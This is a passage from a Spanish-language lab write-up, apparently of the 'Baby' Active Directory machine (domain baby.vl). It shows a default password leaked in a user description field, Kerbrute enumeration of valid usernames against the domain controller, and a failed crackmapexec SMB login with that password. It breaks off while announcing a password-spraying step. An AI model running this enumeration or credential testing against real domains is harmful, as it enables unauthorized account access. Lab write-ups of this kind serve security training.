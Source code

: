 ```bash
description: DNS Administrators Group
description: DNS clients who are permitted to perform dynamic updates on behal
description: Set initial password to BabyStart123!
➜  content
```

- Ahora vamos a verificar si los usuarios son válidos con la herramienta **Kerbrute** <https://github.com/ropnop/kerbrute>.

```bash
➜  content ./kerbrute userenum -d baby.vl --dc babydc.baby.vl list.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 02/25/24 - Ronnie Flathers @ropnop

2024/02/25 17:48:38 >  Using KDC(s):
2024/02/25 17:48:38 >  	babydc.baby.vl:88

2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Joseph.Hughes@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Connor.Wilkinson@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Kerry.Wilson@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Leonard.Dyer@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Teresa.Bell@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Jacqueline.Barnett@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Ashley.Webb@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Hugh.George@baby.vl
2024/02/25 17:48:38 >  Done! Tested 8 usernames (8 valid) in 0.189 seconds
➜  content
```

- Vamos a ver a qué usuario le pertenece la contraseña. **(En el output donde nos dan la contraseña observamos al usuario Teresa Bell)** vamos a agregarla ala lista.

<p align="center">
<img src="https://i.imgur.com/zfIEZ1d.png">
</p>

- Al parecer cambió la contraseña, pero podemos ver si es correcta con **crackmapexec**.

```bash
➜  content crackmapexec smb baby.vl -u teresa.bell -p 'BabyStart123!'
SMB         baby.vl         445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         baby.vl         445    BABYDC           [-] baby.vl\teresa.bell:BabyStart123! STATUS_LOGON_FAILURE
➜  content
```

- Vamos a hacer un **Password Spraying** para ver si alguien más utiliza la contraseña, pero antes vamos a volver a ver los usuarios, ya que al parecer me olvidé de algunos.
